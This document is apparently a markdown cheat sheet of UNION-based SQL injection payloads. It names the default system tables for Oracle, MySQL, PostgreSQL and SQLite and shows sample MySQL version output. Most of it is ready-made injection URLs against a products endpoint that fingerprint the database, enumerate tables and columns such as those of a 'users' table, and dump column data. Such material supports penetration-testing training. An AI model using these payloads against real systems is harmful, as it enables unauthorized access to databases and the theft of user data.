 ### Default Tables in Different Database types 
```
Oracle - dual , v$version ,all_tables , all_tab_columns
MySQL,PostgreSQL - information_schema.tables,information_schema.columns
SQLite - sqlite_master
```

```
mysql> show variables like "%version%"
    -> ;
+-------------------------+-------------------------+
| Variable_name           | Value                   |
+-------------------------+-------------------------+
| innodb_version          | 5.7.34                  |
| protocol_version        | 10                      |
| slave_type_conversions  |                         |
| tls_version             | TLSv1,TLSv1.1,TLSv1.2   |
| version                 | 5.7.34-0ubuntu0.18.04.1 |
| version_comment         | (Ubuntu)                |
| version_compile_machine | x86_64                  |
| version_compile_os      | Linux                   |
+-------------------------+-------------------------+
8 rows in set (0.04 sec)

```

Getting information from string type column
```
https://www.example.com/products?id=2' UNION SELECT NULL,@@version,NULL -- -
https://www.example.com/products?id=2' UNION SELECT NULL,version(),NULL -- -
https://www.example.com/products?id=2' UNION SELECT NULL,BANNER,NULL from v$version -- -
https://www.example.com/products?id=2' UNION SELECT NULL,@@version_compile_machine,NULL -- -
```

--- 

## Dumping all Tables and data

**ORACLE **
```
https://www.example.com/products?id=2' UNION SELECT NULL,TABLE_NAME,NULL from all_tables -- -
https://www.example.com/products?id=2' UNION SELECT NULL,COLUMN_NAME,NULL from all_tab_columns where table_name = 'users'
```

**MySQL,MSSQL,PostgreSQL**
```
https://www.example.com/products?id=2' UNION SELECT NULL,TABLE_NAME,NULL from information_schema.tables -- -
https://www.example.com/products?id=2' UNION SELECT NULL,COLUMN_NAME,NULL from information_schema.columns where table_name = 'users' -- -
```

Dumping data from columns
```
https://www.example.com/products?id=2' UNION SELECT NULL,CONCAT(column1,'|',column2),NULL from table_name -- -
```

--- 